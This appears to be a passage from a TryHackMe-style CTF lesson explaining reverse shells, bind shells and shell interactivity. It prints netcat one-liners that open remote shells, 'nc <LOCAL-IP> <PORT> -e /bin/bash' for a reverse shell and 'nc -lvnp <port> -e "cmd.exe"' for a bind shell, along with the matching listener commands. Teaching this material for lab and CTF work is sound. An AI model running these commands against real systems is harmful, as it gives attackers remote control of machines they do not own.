 Reverse Shell example:

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

sudo nc -lvnp 443

On the target:

nc <LOCAL-IP> <PORT> -e /bin/bash



Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

Bind Shell example:
Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute cmd.exe. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

nc -lvnp <port> -e "cmd.exe"

On the attacking machine:

nc MACHINE_IP <port>



As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive.

Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:

Here you can see that it's asking interactively that the user type either yes or no in order to continue the connection. This is an interactive program, which requires an interactive shell in order to run.

